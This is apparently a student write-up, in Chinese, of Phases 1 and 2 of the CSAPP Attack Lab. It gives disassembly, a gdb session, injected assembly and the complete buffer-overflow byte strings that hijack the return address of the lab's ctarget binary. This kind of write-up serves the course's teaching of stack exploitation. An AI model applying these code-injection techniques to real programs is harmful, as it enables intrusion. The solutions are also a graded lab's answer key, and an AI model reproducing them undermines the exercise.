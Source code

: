 ## Prepration
实验目的：
1、了解缓冲区溢出（stack discipline）
2、write code away from stack discipline
文件结构：
CSAPP-AttackLab
	AttackLab.md
	target1
		cookie.txt 一个8位16进制数，作为攻击的特殊标志符
		ctarget 代码注入攻击的目标文件
		farm.c 在ROP攻击中作为gadgets产生源
		hex2raw 将16进制数转化为攻击字符
		README.txt
		rtarget ROP攻击的目标文件
实验环境：
Centos8-Linux

# Phase1

objdump -d ./ctarget>>ctarget.s //反汇编
![](../imgs/Pasted image 20240620171305.png)
CI: run getbuf return to touch1 adress, touch1 adress : 0x4017c0
getbuf有40个字节的栈空间，所以注入代码应填为:
phase1_ans.txt:
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	c0 17 40 00 00 00 00 00

--------------------------

# Phase2

![](../imgs/Pasted image 20240621112009.png) 

思路关键：在getbuf中给%rdi赋值cookie.txt中的0x59b997fa

```cpp
// in 1.s
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret

gcc -c 1.s -o 1.o 
objdump -d 1.o >2.txt 

// in 2.txt

2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   9:	68 ec 17 40 00       	pushq  $0x4017ec
   e:	c3                   	retq   
// in 1.s
```
因此，结合phase1进行缓存区溢出，即溢出区域地址返回到想要插入的%rsp地址，观察getbuf函数的代码，可知应在mov %rsp,%rdi后加入攻击代码，即<Gets>之前

![](../imgs/微信截图_20240621125123.png) 

通过gdb调试日志查询得到<Gets>时的$rsp值：

```
gdb ctarget
b getbuf
run -q
disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) p /x $rsp
$1 = 0x5561dc78
```

因此注入代码答案为：

48 c7 c7 fa 97 b9 59 68
ec 17 40 c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00